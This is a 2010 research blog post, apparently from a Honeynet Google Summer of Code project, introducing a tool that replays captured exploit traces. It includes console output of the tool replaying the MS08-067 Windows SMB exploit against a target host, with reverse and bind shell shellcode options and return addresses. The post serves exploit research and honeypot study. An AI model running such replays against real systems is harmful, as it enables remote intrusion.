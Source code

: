 ```yaml
---
title: "TraceExploit: Replaying method dissection"
date: "2010-08-17"
categories: 
  - "gsoc"
tags: 
  - "exploit-replay"
  - "gsoc-d20"
  - "traceexploit"
---
```


I've been working on the GSOC Project 14 in recent months. We are meant to start a new tool which can replay the collected exploit traces.  
  
We know that during the process of exploit replay, there're many fields need to be changed in the original application messages. Some of them are platform independent, and the others are platform specific. Platform-independent variables are those changed each time we exploit, like timestamp, cookie, length, etc. And platform-specific variables are those changed only if the target system is changed, like target address, return address point to the shellcode.  
  
As a preprocessing stage, all the variables need to be marked out in the application messages, so we have a Discoverer module to extract the common exploit template from a pack of exploit traces aiming at certain vulnerability. Then the rest part of this article is a brief introduction about how to perform replay with the exploit template.  
  
Replayer do the following work:  

  
2. Load the template into structures in memory. The template is in XML format and an example is attached. It includes three main sections, message sequences, variable list and exploit information.  
    
3. User input exploit options and specify some of the variable values like target address, application args, and choose the shellcode to run.  
    
4. Auto detect the target environment or user specify it. Then the tool will generate the values of rest variables.  
    
5. Perform the replay. Fill the application messages with variable values before sending, and retrieve the variable values from received messages.  
    
6. Examine whether the replay is successful.  
    

  
I have done some experiments based on the ms08-067 vulnerability. First I used Metasploit to attack a xp sp2 target host and captured the packets. Then made it into exploit template. After that, I used Replayer to perform an attack to a xp sp3 host. Here's the result:  
  
`  
alan@alan-desktop:~/Work/workspace/replayer$ ./replayer profile2.xml  
TraceXploit (POC) Replayer 0.1  
https://www.honeynet.org  
by Zhongjie Wang 2010.8.15  
  
Loading exploit template 'profile2.xml'...ok.  
Retrieving arguments list...ok.  
  
[Basic User Options]  
(which are related to target environment, like ip, port, etc.)  
Target IP:219.223.192.149  
Port:445  
Select target OS:  
0. Automatic Targeting  
1. Windows 2000  
2. Windows XP SP1 Simplified Chinese  
3. Windows XP SP2 Simplified Chinese  
4. Windows XP SP3 Simplified Chinese  
Input the number: 4  
  
[Advanced User Options]  
(which are related to the vulnerability we're exploiting.)  
Variable name: smbpipe  
Variable type: arguments  
Possible values: BROWSER, SRVSVC  
Input the value: BROWSER  
  
[Exploit Options]  
(which user can customize shellcode and return address.)  
Here're all the shellcode available:  
1. Windows Cmd Shell, Bind TCP Inline  
2. Windows Cmd Shell, Reverse TCP Inline  
3. Windows Execute Command  
Please input the number: 3  
*******************************  
* windows/exec - 196 bytes *  
* http://www.metasploit.com *  
* Encoder: generic/none *  
*******************************  
Cmd to run:calc  
shellcode has been replaced.  
auto selected return address 'disablenx': 0x58fc17c2  
auto selected return address 'jmpesi': 0x58fbf807  
  
Begin to replay exploit to 219.223.192.149:445...  
Data flow in hex format is saved into 'dataflow.txt'.  
Update variable 'ip' in seq 0 msg 8, offset 50. 
Update variable 'smbpipe' in seq 0 msg 10, offset 88. 
Update variable 'length_18' in seq 0 msg 18, offset 1. 
in seq 0. Connection reset by peer  
replay has been done.  
`  
  
The hex data transfered between two machines are saved into 'dataflow.txt' which is also attached.  
  
In this version of replayer, following variable types are taken into consideration:  

- **IP, Port** usually the values of IP and port for initial connection should be given by user, and the values of that for successive connections should be get from messages.  
    
- **Argument** usually means the arguments used to access the vulnerable services, e.g, username, password, address...  
    
- **Cookie** cookies are retrieved from the received messages and filled into the sending messages.  
    
- **Length** automatically calculated before messages are sent.  
    
- **Shellcode** now we have three shellcodes written into the source code.  
    
- **Return Address** we built a tiny return address database in order to detect the return addresses in messages and choose alternative return addresses.

  
  
Because I don't know how to upload file here, here's the link to the attachment:  
[a exploit template sample](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRjRgwQM/profile2.xml)  
[dataflow.txt](http://gkso.appspot.com/media/agRna3Nvcg0LEgVNZWRpYRi5iwQM/dataflow.txt)
